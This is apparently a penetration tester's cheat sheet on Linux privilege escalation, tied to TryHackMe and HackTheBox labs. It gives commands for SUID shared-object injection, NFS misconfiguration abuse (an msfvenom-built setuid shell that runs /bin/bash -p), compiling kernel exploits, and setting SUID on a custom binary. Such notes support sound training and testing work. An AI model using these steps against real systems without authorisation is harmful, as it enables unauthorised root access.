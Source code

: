   * lxd - ([https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/))
* Environment variables
* bash version < 4.2-048 | 4.4 ([https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc) Task 14, 15)
* NFS Misconfiguration
* linpeas.sh -a //all checks

**SUID Shared Object Injection :**

* Find a SUID binary that looks fishy
* `strace /usr/local/bin/fishybinary 2>&1 | grep -iE "open|access|no such file"`
* Match the shared object that sits in a path where you have write access
* create a shared object in the missing SO file name
* run the SUID binary

**NFS Misconfiguration :**

\*\*\*\*[**https://tryhackme.com/room/linuxprivesc**](https://tryhackme.com/room/linuxprivesc) **(Task 19)**

* `cat /etc/exports`
* **On Kali**
  * `mkdir /tmp/nfs`
  * `mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs`
  * `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
  * `chmod +xs /tmp/nfs/shell.elf`
* **On Target**
  * `/tmp/shell.elf`

### **Kernel Exploits**

* `cat /proc/version`
* `uname -r`
* `uname -mrs`
* `cat /etc/lsb-release`
* `cat /etc/os-release`
* `gcc exploit.c -o exp`
* Compile exploit in local machine and upload to remote machine
  * `gcc -m32 -Wl,--hash-style=both 9542.c -o 9542`
  * `apt-get install gcc-multilib`

**Recover Deleted Files :**

* extundelete (HTB mirai - [https://tiagotavares.io/2017/11/mirai-hack-the-box-retired/](https://tiagotavares.io/2017/11/mirai-hack-the-box-retired/))
* strings

**C Program to SetUID /bin/bash :**

`gcc -Wall suid.c -o exploit`

`sudo chown root exploit`

`sudo chmod u+s exploit`

`$ ls -l exploit -rwsr-xr-x 1 root users 6894 11 sept. 22:05 exploit`
